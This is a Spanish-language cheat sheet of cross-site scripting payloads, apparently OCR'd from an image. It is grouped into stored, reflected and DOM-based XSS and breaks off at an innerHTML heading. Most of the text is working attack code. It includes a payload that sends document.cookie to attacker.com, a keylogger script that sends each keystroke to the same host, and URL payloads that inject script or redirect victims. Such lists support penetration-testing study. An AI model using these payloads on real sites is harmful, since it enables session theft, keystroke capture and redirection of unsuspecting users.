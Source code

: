 ***

### **Payloads de XSS por Categoría**

#### **1️⃣ Stored XSS (XSS Persistente)**

Se almacena en la base de datos y afecta a múltiples usuarios.

**📌 Payload básico (alert en imagen rota):**

```html
<img src="x" onerror="alert('XSS Stored!')">
```

**📌 Payload para robar cookies:**

```html
<img src="x" onerror="fetch('http://attacker.com/steal.php?cookie=' + document.cookie)">
```

**📌 Payload para inyectar un keylogger:**

```html
<script>
document.onkeypress = function(e) {
    fetch('http://attacker.com/log.php?key=' + e.key);
};
</script>
```

***

#### **2️⃣ Reflected XSS (XSS Reflejado)**

El script malicioso se envía en una URL y se ejecuta en la respuesta de la aplicación.

**📌 Payload de URL con `alert()`:**

```
http://victima.com/search?q=<script>alert('XSS')</script>
```

**📌 Payload para redirigir a un sitio malicioso:**

```
http://victima.com/search?q=<script>window.location='http://attacker.com'</script>
```

***

#### **3️⃣ DOM-Based XSS**

El ataque ocurre en el lado del cliente cuando se manipula el DOM sin sanitización.

**📌 Payload si la página usa `document.write()`:**

```html
<script>document.write('<img src=x onerror=alert("DOM XSS")>');</script>
```

**📌 Payload si usa `innerHTML`:**
